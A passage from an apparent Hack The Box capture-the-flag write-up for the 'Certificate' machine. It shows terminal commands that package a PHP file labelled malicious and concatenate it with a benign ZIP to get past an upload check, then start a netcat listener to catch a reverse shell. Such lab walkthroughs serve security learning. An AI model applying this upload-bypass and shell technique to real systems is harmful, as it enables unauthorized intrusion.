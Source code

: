- Archive the malicious file:

```bash
zip malicious.zip normal.php
```


- Concatenate the malicious and benign archives to produce a single uploadable ZIP:

```bash
cat malicious.zip benign.zip > shell.zip
```


```
┌──(kali㉿kali)-[~/HTB-machine/certificate/try2]
└─$ echo "hello world" > newfile.txt
                                                                                                                                                             
┌──(kali㉿kali)-[~/HTB-machine/certificate/try2]
└─$ pandoc newfile.txt  -o normal.pdf
                                                                                                                                                             
┌──(kali㉿kali)-[~/HTB-machine/certificate/try2]
└─$ zip benign.zip normal.pdf
  adding: normal.pdf (deflated 2%)
                                                                                                   
                                                                                                   
┌──(kali㉿kali)-[~/HTB-machine/certificate/try2/malicious_files]
└─$ nano normal.php
                                                                                                                                                                  
┌──(kali㉿kali)-[~/HTB-machine/certificate/try2]
└─$ zip malicious.zip normal.php 
  adding: normal.php (deflated 54%)
                                                                                                                                                             
┌──(kali㉿kali)-[~/HTB-machine/certificate/try2]
└─$ cat benign.zip malicious.zip > shell.zip
                                                                                                                                                       
```


Upload `shell.zip` and set up a listener:

```
nc -lvnp 4444
```

After submitting the .zip file, click on the HERE link.


<img src="assets/HTB/Certificate/image6.png" alt="Error loading image">
